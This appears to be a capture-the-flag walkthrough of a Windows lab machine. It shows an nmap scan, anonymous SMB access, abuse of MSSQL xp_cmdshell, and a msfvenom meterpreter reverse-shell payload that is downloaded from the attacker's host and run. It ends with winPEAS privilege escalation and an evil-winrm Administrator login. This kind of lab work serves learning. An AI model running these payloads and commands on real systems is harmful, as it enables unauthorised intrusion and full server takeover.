 #Windows #SMB #SQL



**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.95.187
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 135/tcp   open  msrpc        Microsoft Windows RPC
* 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
* 445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
* 1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.0
* 5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  msrpc        Microsoft Windows RPC
* 49665/tcp open  msrpc        Microsoft Windows RPC
* 49666/tcp open  msrpc        Microsoft Windows RPC
* 49667/tcp open  msrpc        Microsoft Windows RPC
* 49668/tcp open  msrpc        Microsoft Windows RPC
* 49669/tcp open  msrpc        Microsoft Windows RPC

**SMB Client** to enumerate the SMB


```sh
  smbclient -N -L \\\\10.129.95.187\\
  ```

List of shares (**-L**)

No password (**-N**)

![image](https://user-images.githubusercontent.com/99097743/169720137-8d8b886d-3eb6-4862-b00f-76014203e263.png)

One of the sharenames does not have the dollar sign (**backups**) --> Non-Administrative share over SMB  


```sh
  smbclient -N //10.129.95.187/backups
  ```

**Impacket** to connect and authenticate to the MSSQL server

Impacket is a collection of Python classes for working with network protocols. Impacket packet includes **mssqlclient.py**  An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS. **It can be used in order to establish an authenticated connection to a Microsoft SQL Server**.


https://github.com/SecureAuthCorp/impacket

Impacket Installation Steps:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket
supo python3 ./setup.py install
```

The command to connect and authenticate to the MSSQL server:
```sh
mssqlclient.py ARCHETYPE/sql_svc:{Password}@10.129.95.187 -windows-auth
```

- Please make sure to **enable xp_cmdshell** and **reconfigure**
- Need to use **xp_cmdshell** before every comments
  - xp_cmdshell dir --> Shows directory
  - xp_cmdshell "powershell -c cd C:/; pwd" --> First changes dir to C:/ then shows pwd

**Generate Reverse Shell**

We can try **msfvenom** tool to generate the payload for the reverse shell. 

![image](https://user-images.githubusercontent.com/99097743/169732063-60f5b6b4-3640-4197-92d5-8c265a02d9c7.png)

This command is important. It shows all framework payloads
```sh
msfvenom -l payloads 
```

The command to generate the payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.26 -f exe -o payload.exe
# Next Open Metasploit Framework
msfconsole
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
run
# Now our listener is active to connect to our localhost machine with VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/169736888-315fe72f-fcd1-4e3f-af66-e5839c9659ed.png)

Now we need to transfer the payload (payload.exe) to the target machine

```sh
sudo python3 -m http.server 80
```

Now we go back to SQL server. 
Try to find directory with write and execute permissions 

```sh
xp_cmdshell "powershell -c cd C:/Users/Public"
# Now transfer the file
xp_cmdshell "powershell -c cd C:/Users/Public; wget http://10.10.16.26/payload.exe -o payload.exe"
# Make sure it's is downloaded
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
# Let's execute the payload
xp_cmdshell "powershell -c cd C:/Users/Public; ./payload.exe"
```

Good job! meterpreter shell is activated:

![image](https://user-images.githubusercontent.com/99097743/169738799-2cc02f1e-e5d5-4b89-91a9-37b2860fb99f.png)

```sh
getuid
#user info
```

```sh
upload winPEASx64.exe
# IMPORTANT: For the Meterpreter shell, the local working directory is the location where one started the Metasploit console.
# In this case: $upload winPEASx64.exe: takes the file from /home/kali/htb/archetype to the target machine
```

We can now run winPEAS
```sh
shell
winPEASx64.exe
```
![Screenshot 2022-05-22 231416](https://user-images.githubusercontent.com/99097743/169742009-1a9d012b-6648-44d7-8603-a9be8d8aa013.png)

Now we have access to Administrator username:password! 

We can use evil-winrm 
https://www.kali.org/tools/evil-winrm/


```sh
evil-winrm -u Administrator -p {PASSCODE} -i 10.129.95.187
```
![image](https://user-images.githubusercontent.com/99097743/169846841-1375fdb3-80e3-4749-ad4c-282cf92d3a62.png)
